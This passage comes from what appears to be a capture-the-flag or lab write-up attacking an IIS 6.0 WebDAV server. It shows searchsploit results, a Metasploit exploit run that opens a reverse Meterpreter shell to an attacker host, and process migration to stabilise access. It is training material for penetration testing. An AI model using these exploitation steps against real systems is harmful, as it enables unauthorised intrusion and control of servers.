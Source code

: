 Microsoft IIS 5.0 (Windows XP/2000/NT 4.0) - WebDAV 'ntdll.dll' Remote Buffer Overflow (3)                                             | windows/remote/22367.txt
Microsoft IIS 5.0 (Windows XP/2000/NT 4.0) - WebDAV 'ntdll.dll' Remote Buffer Overflow (4)                                             | windows/remote/22368.txt
Microsoft IIS 5.0 - WebDAV 'ntdll.dll' Path Overflow (MS03-007) (Metasploit)                                                           | windows/remote/16470.rb
Microsoft IIS 5.0 - WebDAV Denial of Service                                                                                           | windows/dos/20664.pl
Microsoft IIS 5.0 - WebDAV PROPFIND / SEARCH Method Denial of Service                                                                  | windows/dos/22670.c
Microsoft IIS 5.1 - WebDAV HTTP Request Source Code Disclosure                                                                         | windows/remote/26230.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                                               | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass                                                                                | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                                            | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                                            | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                                        | windows/remote/8754.patch
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

Exploitation using Metasploit:
Launching msfconsole, we quickly set up the options and trigger the exploit to get a shell with NETWORK user privilege.
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.16.173:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.16.173:4444 -> 10.10.10.14:1037) at 2021-06-05 11:20:03 -0400

meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
However, the shell spawned by metasploit is unstable and getuid fails to execute. Using ps, we can see that the "w3wp.exe" process is running with the same privilege level and migrating to the process ID makes the shell stable.
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 180   1076  cidaemon.exe
 224   1076  cidaemon.exe
 276   4     smss.exe
 324   276   csrss.exe
 328   584   davcdata.exe
 348   276   winlogon.exe
 396   348   services.exe
 408   348   lsass.exe
 584   396   svchost.exe
 680   396   svchost.exe
 740   396   svchost.exe
 772   396   svchost.exe
 800   396   svchost.exe
 936   396   spoolsv.exe
 964   396   msdtc.exe